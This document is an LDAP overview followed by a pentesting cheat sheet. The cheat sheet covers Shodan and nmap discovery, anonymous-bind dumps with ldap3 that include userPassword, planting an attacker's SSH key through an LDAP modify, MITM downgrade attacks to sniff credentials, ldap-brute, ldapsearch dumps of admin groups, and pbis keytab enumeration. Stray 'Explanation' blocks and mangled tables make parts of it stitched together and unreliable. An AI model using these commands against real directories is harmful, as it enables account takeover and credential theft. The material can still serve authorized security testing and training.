










# LDAP Documentation

## Overview

Lightweight directory access protocol (LDAP) is a protocol that makes it possible for applications to query user information rapidly.

Companies store usernames, passwords, email addresses, printer connections, and other static data within directories. LDAP is an open, vendor-neutral application protocol for accessing and maintaining that data. LDAP can also tackle authentication, so users can sign on just once and access many different files on the server.

LDAP is a protocol, so it doesn’t specify how directory programs work. Instead, it’s a form of language that allows users to find the information they need very quickly.

LDAP is vender-neutral, so it can be used with a variety of different directory programs. Typically, a directory contains data that is:

### Key Features

-   **Descriptive.** Multiple points, such as name and location, come together to define an asset.
-   **Static.** The information doesn’t change much, and when it does, the shifts are subtle.
-   **Valuable.** Data stored within the directory is critical to core business functions, and it’s touched over and over again.

### Common Ports
- **389:** LDAP
- **636:** LDAPS (SSL)
- **3268:** LDAP Global Catalog
- **3269:** LDAPS Global Catalog

The LDAP Process Explained



The average employee connects with LDAP dozens or even hundreds of times per day. That person may not even know the connection has happened even though the steps to complete a query are intricate and complex.

An LDAP query typically involves:

-   **Session connection.** The user connects to the server via an LDAP port.
-   **Request.** The user submits a query, such as an email lookup, to the server.
-   **Response.** The LDAP protocol queries the directory, finds the information, and delivers it to the user.
-   **Completion.** The user disconnects from the LDAP port.

### Authentication Methods 

Before any search commences, the LDAP must authenticate the user. Two methods are available for that work:

-   **Simple.** The correct name and password connect the user to the server.
-   **Simple Authentication and Security Layer (SASL).** A secondary service, such as Kerberos, performs authentication before the user can connect. For companies that require advanced security, this can be a good option.

Some queries originate within the company’s walls, but some start on mobile devices or home computers. Most LDAP communication is sent without scrambling or encryption, and that could cause security problems. Most companies use Transport Layer Security (TLS) to ensure the safety of LDAP messages.

## LDAP Operations 

People can tackle all sorts of operations with LDAP. They can:

-   **Add.** Enter a new file into the database.
-   **Delete.** Take out a file from the database.
-   **Search.** Start a query to find something within the database.
-   **Compare.** Examine two files for similarities or differences.
-   **Modify.** Make a change to an existing entry.

## Important LDAP Terms

Common terms you’ll see as you begin to learn about LDAP include:

-   **Data models.** What types of information sit within your directory? Models help you understand the facets within your LDAP. You could have general information (such as an object class), names (how each item is uniquely referenced), functions (how the data is accessed), and security (how users move through authentication).
-   **Distinguished name (DN).** This is a unique identifier of each entry that also describes location within the information tree.
-   **Modifications.** These are requests LDAP users make to alter the data associated with an entry. Defined modification types include adding, deleting, replacing, and increasing.
-   **Relative distinguished name (RDN).** This is a way of tying DNs together while specifying relative location.
-   **Schema.** The coding that underpins your LDAP is known as schema. You’ll use this language to describe the format and attributes of each item that sits on the server.
-   **URLs.** This is a string that includes the address and port of a server, along with other data that can define a group, provide a location, or refer an operation to another server.
-   **Uniform resource identifier (URI).** This is a string of characters that defines a resource.

## General Information

### Architecture

-   DC = Domain Component, the domain name
-   OU = Organizational Unit, "folders
-   CN = Common Name, the name fiven to the objects (Username, Group name, Computer name, etc.)

### Interesting Attributes for User Class
```bash
ldapsearch "(objectClass=user)"
```
- `sAMAccountName`
- `userPrincipalName`
- `memberOf` (groups)
- `badPwdCount` (failed logins)
- `lastLogoff` (timestamp)
- `lastLogon` (timestamp)
- `pwdLastSet` (timestamp)
- `logonCount`

Interesting attributes for group class

### Interesting Attributes for Group Class
```bash
ldapsearch "(objectClass=group)"
```
- `cn`
- `member` (one per user/group)
- `memberOf` (if nested in another group)

### Interesting Attributes for Computer Class
```bash
ldapsearch "(objectClass=computer)"
```
- `name` (NetBIOS name)
- `DNSHostName` (FQDN)
- `operatingSystem`
- `operatingSystemVersion` (patch level)
- `lastLogonTimestamp`
- `servicePrincipalName` (running services)

## LDAP Pentesting

** Shodan search query :** |
```plaintext
port:389,636,3268
```

### Banner Grabbing
```bash
nmap -sV -p389 10.10.x.x
```



### Basic Enumeration

You can attempt to enumerate an LDAP with or without credentials using Python:
```bash
pip3 install ldap3
```
First, try to connect without credentials:
```python
import ldap3
server = ldap3.Server('10.10.x.x', get_info=ldap3.ALL, port=636, use_ssl=True)
connection = ldap3.Connection(server)
connection.bind()  # True
server.info
```



If the response is True like in the previous example, you can obtain some interesting data of the LDAP (like the naming context or domain name) server from:

```python
server.info  # DSA info (from DSE): Supported LDAP versions: 3 Naming contexts: dc=DOMAIN,dc=DOMAIN
```

Once you have the naming context you can make some more exciting queries. This simply query should show you all the objects in the directory:

| 1 2 3  | \>\>\> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=\*))', search_scope='SUBTREE', attributes='\*') True \>\> connection.entries  |
|--------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------|





Or dump the whole ldap:

| 1 2 3  | \>\> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword') True \>\>\> connection.entries  |
|--------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|



Information Collection with Nmap Scripts

| 1 2 3  | nmap -n -sV --script "ldap\* and not brute" 10.10.x.x \#Using anonymous credentials nmap -p 389 -sV -n --script "ldap\* not brute" --script-args 'ldap.username="cn=0xhav0c,cn=users,dc=secybr,dc=com",ldap.password=Password' 10.10.x.x  nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=0xhav0c,cn=users,dc=secybr,dc=com",ldap.password=ldaptest,ldap.qfilter=custom,ldap.searchattrib="operatingSystem",ldap.searchvalue="Windows \*Server\*",ldap.attrib={operatingSystem,whencreated,OperatingSystemServicePack}' 10.10.x.x   |
|--------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

You can use specific filters from [here](https://nmap.org/nsedoc/scripts/ldap-search.html)



Write data

Note that if you can modify values you could be able to perform really interesting actions. For example, imagine that you can change the “sshPublicKey” information of your user or any user. It’s highly probable that if this attribute exist, then ssh is reading the public keys from LDAP. If you can modify the public key of a user you will be able to login as that user even if password authentication is not enabled in ssh.

| 1 2 3 4 5 6 7 8  | \>\>\> import ldap3 \>\>\> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True) \>\>\> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True) \>\>\> connection.bind() True \>\>\> connection.extend.standard.who_am_i() u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN' \>\>\> connection.modify('uid=USER,ou=USERS,dc=DOMAIN=,dc=DOMAIN',{'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})  |
|------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Example taken from: <https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/>

Credentials

Plaintext Credentials

If LDAP is used without SSL you can sniff credentials in plain text in the network.

Also, you can perform a MITM attack in the network between the LDAP server and the client. Here you can make a Downgrade Attack so the client with use the credentials in clear text to login.

If SSL is used you can try to make MITM like the mentioned above but offering a false certificate, if the user accepts it, you are able to Downgrade the authentication method and see the credentials again.

Valid Credentials

If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:

| 1 2  | pip3 install ldapdomaindump  ldapdomaindump -u secybr.com\\0xhav0c -p 'Password' 10.10.x.x  |
|------|---------------------------------------------------------------------------------------------|

Brute Forcing

| 1  | nmap --script ldap-brute -p 389 10.10.x.x  |
|----|--------------------------------------------|

Check NULL credentials or if your credentials are valid.

| 1 2 3 4 5 6  | ldapsearch -x -h 10.10.x.x -D '' -w '' -b "DC=\<1_SUBDOMAIN\>,DC=\<TDL\>" ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "DC=\<1_SUBDOMAIN\>,DC=\<TDL\>" \# CREDENTIALS NOT VALID RESPONSE search: 2 result: 1 Operations error text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v3839  |
|--------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

If you find something saying that the bind must be completed means that the credentials are incorrect.

You can extract everything from a domain using

| 1 2 3 4 5 6  | ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "DC=\<1_SUBDOMAIN\>,DC=\<TDL\>" -x Simple Authentication -h LDAP Server -D My User -w My password -b Base site, all data from here will be given  |
|--------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|



## Extract Users
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

## Extract Computers
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

## Extract My Info
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

## Extract Domain Admins
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

## Extract Domain Users
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

## Extract Enterprise Admins
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

## Extract Administrators
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TDL>"
```

## Extract Remote Desktop Group
```bash
ldapsearch -x -h 10.10.x.x -D 'secybr.com\\0xhav0c' -w 'Password' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TDL>"
```
```

### Explanation:
- Each command is placed in a code block for clarity.
- The commands are organized under headers to indicate their purpose, making it easier to navigate through the document.
- Ensure to replace `<1_SUBDOMAIN>`, `<TDL>`, and `<MY NAME>` with actual values when executing the commands.


To see if you have access to any password you can use grep after executing one of the queries:

| 1  | \<ldapsearchcmd...\> \| grep -i -A2 -B2 "userpas"  |
|----|----------------------------------------------------|

Please, notice that the passwords that you can find here could not be the real ones…

pbis

You can download pbis from here: <https://github.com/BeyondTrust/pbis-open/> and it’s usually installed in **/opt/pbis**.

# Keytab File Operations

## Commands to Execute

### Read Keytab File
```bash
./klist -k /etc/krb5.keytab
```

### Get Known Domains Info
```bash
./get-status
./lsa get-status
```

### Get Basic Metrics
```bash
./get-metrics
./lsa get-metrics
```

### Get Users
```bash
./enum-users
./lsa enum-users
```

### Get Groups
```bash
./enum-groups
./lsa enum-groups
```

### Get All Kinds of Objects
```bash
./enum-objects
./lsa enum-objects
```

### Get Groups of a User
```bash
./list-groups-for-user <username>
./lsa list-groups-for-user <username>
```

### Get Groups of Each User
```bash
./enum-users | grep "Name:" | sed -e "s,\\\,\\\\\\\,g" | awk '{print $2}' | while read name; do
    ./list-groups-for-user "$name"
    echo -e "========================\n"
done
```

### Get Users of a Group
```bash
./enum-members --by-name "domain admins"
./lsa enum-members --by-name "domain admins"
```

### Get Users of Each Group
```bash
./enum-groups | grep "Name:" | sed -e "s,\\\,\\\\\\\,g" | awk '{print $2}' | while read name; do
    echo "$name"
    ./enum-members --by-name "$name"
    echo -e "========================\n"
done
```

### Get Description of Each User
```bash
./adtool -a search-user --name CN="*" --keytab=/etc/krb5.keytab -n 0xhav0c | grep "CN" | while read line; do
    echo "$line"
    ./adtool --keytab=/etc/krb5.keytab -n 0xhav0c -a lookup-object --dn="$line" --attr "description"
    echo "======================"
done
```
```

### Explanation:
- Each command is placed in a code block for clarity.
- Comments are added to explain the purpose of each command.
- The use of headers helps to organize the content for easy navigation.


## Apache Directory

Download Apache Directory from here. You can find an example of how to use this tool here.

You can download a graphical interface with LDAP server here: <http://www.jxplorer.org/downloads/users.html>

By default is is installed in: **/opt/jxplorer**




